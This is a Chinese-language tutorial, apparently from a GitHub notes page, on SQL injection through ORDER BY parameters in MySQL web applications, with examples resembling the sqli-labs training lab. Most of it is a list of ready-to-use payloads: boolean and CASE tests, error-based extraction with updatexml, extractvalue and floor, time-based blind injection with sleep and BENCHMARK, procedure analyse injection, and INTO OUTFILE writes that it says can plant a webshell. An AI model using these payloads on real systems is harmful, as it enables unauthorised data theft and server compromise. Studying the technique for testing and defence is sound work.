 ```yaml
---
layout: default
category: Web安全
tags: [SQL注入]
---
```


## 0x00 order by 注入是什么

order by 注入是指其后面的参数是可控的，例如：

```sql
select * from goods order by $_GET['id']
```

order by 不同于我们在where后的注入点，不能使用union等注入。

## 0x01 简单的注入判断

有时候，我们可以利用order by子句进行快速猜解表中的列数，再配合`union select`语句进行回显。

例如：

```sql
id = 1 order by 3 // 不报错
id = 1 order by 4 //报错
```

说明前面的字段数为3。

## 0x02 构造payload

**url:**

```url
http://vunl.com/?sort=1
```

我们可以直接构`？sort=`后面一个参数：

* 直接添加注入语句，`？sort=(sql语句)`
* 利用一些函数，rand函数，ifnull。 `？sort=rand(sql语句)`
* 利用 `and`，例如`?sort=1 and (sql语句)`

### 1、直接添加语句

```sql
/?sort=IF(1=1,name,price) 通过name字段排序
/?sort=IF(1=2,name,price) 通过price字段排序
```

```sql
/?order=(CASE+WHEN+(1=1)+THEN+name+ELSE+price+END) 通过name字段排序
/?order=(CASE+WHEN+(1=2)+THEN+name+ELSE+price+END) 通过price字段排序
```

```sql
/?order=IFNULL(NULL,price) 通过price字段排序
/?order=IFNULL(NULL,name) 通过name字段排序
```

rand(true) 和 rand(false)的结果是不一样的。

```
/?sort=rand(1=1)
/?sort=rand(1=2)
/?sort=rand(ascii(left(database(),1))=115)
```

### 2、利用报错

**floor函数**

```
sort=(select count(*) from information_schema.columns group by concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand()*2)))
```

**返回多条记录**

```
/?sort=IF(1=1,1,(select+1+union+select+2)) 正确
/?sort=IF(1=2,1,(select+1+union+select+2)) 错误
/?sort=IF(1=1,1,(select+1+from+information_schema.tables)) 正常
/?sort=IF(1=2,1,(select+1+from+information_schema.tables)) 错误
```

**利用regexp**

```
/?order=(select+1+regexp+if(1=1,1,0x00)) 正常
/?order=(select+1+regexp+if(1=2,1,0x00)) 错误
```

**利用updatexml**

```
/?sort=updatexml(1,if(1=1,1,user()),1) 正确
/?sort=updatexml(1,if(1=2,1,user()),1) 错误
```

**利用extractvalue**

```
/?sort=extractvalue(1,if(1=1,1,user())) 正确
/?sort=extractvalue(1,if(1=2,1,user())) 错误
```

###3、利用延时

```
?sort= (select if(substr(current,1,1)=char(115),
BENCHMARK(50000000,md5('1')),null) from (select database() as curr
ent) as tb1)
```

```sql
?sort=if(ascii(substr(database(),1,1))=116,0,sleep(5))
```

### 4、procedure anaylse 参数后注入

利用procedure analyse 参数，我们可以执行报错注入。同时，在procedure analyse 和order by 之间可以存在limit 参数，我们在实际应用中，往往也可能会存在limit 后的注入，可以利用procedure analyse 进行注入。

```sql
?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)
```

### 5、导入导出文件 into outfile参数

```sql
?sort=1 into outfile "C:\phpStudy\PHPTutorial\WWW\sqli\Less-46\hack.txt"
```

可以利用`lines terminated by` 上传webshell

```sql
into outtfile c:\\wamp\\www\\sqllib\\test1.txt lines terminated by 0x(网马进行16进制转换)
```


